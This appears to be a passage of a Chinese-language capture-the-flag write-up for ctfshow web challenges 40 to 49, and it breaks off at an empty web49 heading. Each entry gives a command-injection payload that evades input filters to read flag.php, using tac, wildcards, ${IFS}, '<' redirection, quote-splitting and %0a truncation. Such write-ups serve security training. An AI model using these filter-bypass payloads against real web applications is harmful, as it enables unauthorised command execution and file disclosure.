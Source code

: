 ## web40

过滤的是中文括号。。。。

    c=show_source(next(array_reverse(scandir(pos(localeconv())))));

## web41

https://blog.csdn.net/miuzzx/article/details/108569080

## web42

会重定向把结果丢弃，可以截断。
'只执行前面，''只执行后面。
也可以用%0a截断。

    c=cat flag.php''

## web43

过滤了cat，相当于没过滤

    c=tac flag.php''

## web44

在43基础上过滤了flag，相当于没过滤。

    c=tac fla*''

## web45

在44基础上过滤了空格，相当于没过滤。

    c=tac${IFS}fla*''

## web46

在45基础上过滤了$符号，用<代替空格。
值得注意的是<和通配符&#42;不能一起使用。

    c=tac<fla''g.php''

## web47

多过滤了一些命令，但是tac仍然可以使用。同上题payload

## web48

同上题

## web49

